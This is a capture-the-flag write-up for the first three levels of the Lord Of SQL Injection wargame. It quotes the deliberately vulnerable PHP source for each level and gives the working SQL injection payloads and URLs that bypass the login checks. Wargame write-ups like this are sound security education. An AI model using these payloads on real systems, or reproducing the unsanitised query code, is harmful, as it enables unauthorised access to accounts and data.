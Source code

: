 ## Lord Of SQL Injection

At [los.rubiya.kr](https://los.rubiya.kr/).

### Gremlin

```php
Challenge:

query : select id from prob_gremlin where id='' and pw=''

<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

We just need to bypass the login with the simple `1' OR '1'='1`.

Final Url: `https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php/?id=1&pw=1%27%20OR%20%271%27=%271`

Human Readable `https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php/?id=1&pw=1' OR '1'='1`

Final Query: `select id from prob_gremlin where id='1' and pw='1' OR '1'='1'`

### Cobolt

```php
Challenge:

query : select id from prob_cobolt where id='' and pw=md5('')

<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

We just need to bypass the MD5 password check and login as admin. So we use a `#` to comment out the MD5 check.

Final URL: `https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin%27%20%23`

Human Readable: `https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin' #`

Final Query: `select id from prob_cobolt where id='admin' #' and pw=md5('')`

### Goblin

```php
Challenge:

query : select id from prob_goblin where id='guest' and no=

<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

Currently, we cannot edit the `id='guest'` before the `'no'` parameter, so we must focus on making the `SELECT` statement's first part evaluate to `false`, allowing us to inject whatever usernumber `no` into the second part of the statement.

Firstly, by adding `?no=1` to the url, we see the statement `Hello guest`.

This means that `id='guest' and no=1` has evaluated to `true`.
Thus, to make it evaluate to `false`, we simply change the end of the url to `?no=2`.

Then, the webpage returns to "normal" and we know that the first part of the statement has evaluated to `false`.

Next, to get the webpage to say "Hello Admin", since we know that number 1 is guest, we can try to add a `or no=2` after the earlier payload to evaluate false. 

Thus, the final payload is `?no=2 or no=2`.

Final URL: `https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=2%20OR%20no=2`

Human Readable: `https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=2 OR no=2`

Final Query: `select id from prob_goblin where (id='guest' and no=2) OR no=2`
